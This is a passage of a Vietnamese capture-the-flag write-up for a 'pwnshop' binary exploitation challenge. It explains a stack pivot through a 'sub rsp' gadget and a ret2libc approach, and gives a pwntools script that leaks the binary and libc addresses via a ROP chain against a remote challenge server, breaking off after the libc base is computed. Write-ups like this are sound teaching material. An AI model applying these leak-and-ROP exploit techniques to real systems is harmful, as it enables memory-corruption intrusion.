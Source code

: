 RIP (sẽ là gadget sub rsp)
```

![image](https://hackmd.io/_uploads/rJuM-21GJg.png)

- sau khi sub rsp , thì nó sẽ trỏ ngay pop của ta và lúc đó ta leak được libc , leak xong thì ret2libc như bth , ở đây ta cũng cần phải tìm libc giống với sever 


script 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./pwnshop_patched',checksec=False)
libc = ELF('./libc.so.6')
ld = ELF('./ld-2.23.so')
#p = process()
p = remote('83.136.254.158',36331)

p.sendlineafter(b'> ',b'2')
p.sendafter(b'? ',b'aaa')
payload = b'a'*8
p.sendafter(b'? ',payload)
p.recvuntil(b'What? ')
p.recv(8)

leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f"leak {hex(leak)}")


exe.address = leak - 0x40c0
sub_rsp = 0x0000000000001219
pop_rdi = 0x00000000000013c3

log.info(f"exe: {hex(exe.address)}")

p.sendlineafter(b'> ',b'1')
#gdb.attach(p,gdbscript='''
#           brva 0x000000000000135B
#           ''')
#input()

payload_leak = p64(pop_rdi+exe.address)
payload_leak += p64(exe.got.puts)
payload_leak += p64(exe.plt.puts)
payload_leak += p64(0x000000000000132A+exe.address)

p.sendafter(b'Enter details: ',b'a'*0x28 +  payload_leak + p64(exe.address + sub_rsp))

leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f"leak {hex(leak)}")
libc.address = leak - libc.sym.puts
